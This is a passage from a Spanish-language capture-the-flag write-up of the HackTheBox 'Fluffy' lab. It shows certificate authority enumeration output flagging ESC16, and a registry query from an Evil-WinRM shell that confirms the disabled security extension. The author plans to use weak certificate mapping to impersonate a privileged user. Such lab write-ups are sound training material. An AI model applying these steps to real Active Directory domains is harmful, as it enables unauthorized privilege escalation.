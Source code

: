 ~~~ bash
Certificate Authorities
  0
    CA Name                             : fluffy-DC01-CA
    DNS Name                            : DC01.fluffy.htb
    Certificate Subject                 : CN=fluffy-DC01-CA, DC=fluffy, DC=htb
    Certificate Serial Number           : 3670C4A715B864BB497F7CD72119B6F5
    Certificate Validity Start          : 2025-04-17 16:00:16+00:00
    Certificate Validity End            : 3024-04-17 16:11:16+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Disabled Extensions                 : 1.3.6.1.4.1.311.25.2
    Permissions
      Owner                             : FLUFFY.HTB\Administrators
      Access Rights
        ManageCa                        : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        ManageCertificates              : FLUFFY.HTB\Domain Admins
                                          FLUFFY.HTB\Enterprise Admins
                                          FLUFFY.HTB\Administrators
        Enroll                          : FLUFFY.HTB\Cert Publishers
    [!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates
~~~

Alternativamente, desde la shell con la cuenta `winrm_svc`, podemos consultar el valor de `DisableExtensionList`, donde deberíamos ver el OID de la extensión `szOID_NTDS_CA_SECURITY_EXT` añadido

~~~ powershell
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\fluffy-DC01-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy /v DisableExtensionList

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\fluffy-DC01-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy
    DisableExtensionList    REG_MULTI_SZ    1.3.6.1.4.1.311.25.2
~~~

Además comprobaremos el valor de `StrongCertificateBindingEnforcement`, para verificar que se encuentre en `0` o `1`. Sabremos que podemos aprovechar un mapeo débil para suplantar a un usuario privilegiado
